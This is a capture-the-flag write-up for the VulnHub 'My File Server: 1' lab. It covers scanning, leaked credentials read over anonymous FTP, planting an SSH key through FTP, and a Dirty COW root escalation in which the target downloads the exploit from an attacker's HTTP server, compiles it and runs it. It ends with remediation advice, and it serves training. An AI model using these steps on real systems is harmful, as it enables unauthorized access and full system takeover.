



# My File Server: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.29.123 (adjust for your network) |
| **Difficulty** | Easy (beginner) |
| **OS** | Linux |
| **Root Flag** | /root/proof.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/my-file-server-1,432/) |

## Attack Summary

nmap → FTP anon + SMB (readme.txt leaks smbuser:rootroot1) → SSH key upload via FTP → SSH as smbuser → Dirty COW kernel exploit → root

## Methodology

1. Network discovery and port scan
2. FTP anonymous access + Nikto finds readme.txt
3. SMB enumeration confirms user smbuser
4. SSH public key upload via FTP
5. Dirty COW kernel privilege escalation

---

## Step 1: Network Discovery

```bash
sudo netdiscover
nmap -p- -A 192.168.29.123
```

Expected ports:
```
21/tcp   open  FTP (anonymous allowed)
22/tcp   open  SSH
80/tcp   open  HTTP Apache
139/tcp  open  SMB
445/tcp  open  SMB
```


---

## Step 2: Web + FTP Enumeration

Run Nikto against the web server to find `readme.txt`:

```bash
nikto -h http://192.168.29.123
```

Output includes:
```
+ /readme.txt: Found - contains: smbuser / rootroot1
```

Also confirm via FTP anonymous access:

```bash
ftp 192.168.29.123
# Username: anonymous, Password: (blank)
ftp> ls
ftp> get readme.txt
```

`readme.txt` contains the SMB credentials.


---

## Step 3: SMB Enumeration

Confirm the user and share:

```bash
smbmap -H 192.168.29.123
enum4linux -a 192.168.29.123
```

User `smbuser` exists. The FTP directory maps to `/home/smbuser`.

---

## Step 4: SSH Key Upload via FTP

Generate a passwordless SSH key pair on the attacker:

```bash
ssh-keygen -t rsa -f /tmp/id_rsa -N ""
```

Upload the public key via FTP as `authorized_keys`:

```bash
ftp 192.168.29.123
# Username: smbuser, Password: rootroot1
ftp> mkdir .ssh
ftp> cd .ssh
ftp> put /tmp/id_rsa.pub authorized_keys
```

SSH in:

```bash
ssh -i /tmp/id_rsa smbuser@192.168.29.123
```



---

## Step 5: Privilege Escalation (Dirty COW)

Check kernel version:

```bash
uname -a
# Linux fileserver 4.4.0-31-generic #50-Ubuntu ...
```

The kernel is vulnerable to Dirty COW (CVE-2016-5195).

On the attacker, serve the exploit:

```bash
python3 -m http.server 8000
```

On the target:

```bash
cd /tmp
wget http://192.168.29.208:8000/40616.c
gcc 40616.c -o dirtycow -pthread
./dirtycow
```

Get root:

```bash
id
# uid=0(root) gid=0(root)
cat /root/proof.txt
```




---

## Lessons Learned

1. **Credentials in readable files on FTP/SMB** are a common beginner misconfiguration
2. **Anonymous FTP access** should always be disabled unless explicitly needed
3. **Dirty COW (CVE-2016-5195)** affects kernels 2.6.22–4.8.3; patch immediately
4. SSH `authorized_keys` can be planted if an attacker can write to `~/.ssh/`

## Remediation

| Vulnerability | Fix |
|---|---|
| Plaintext credentials in readme.txt | Remove sensitive files; use password managers |
| Anonymous FTP access | Disable in vsftpd.conf: `anonymous_enable=NO` |
| Writable home dir via FTP | Restrict FTP to chroot; disable SSH public key auth if unused |
| Dirty COW (CVE-2016-5195) | Update kernel: `apt-get upgrade linux-generic` |
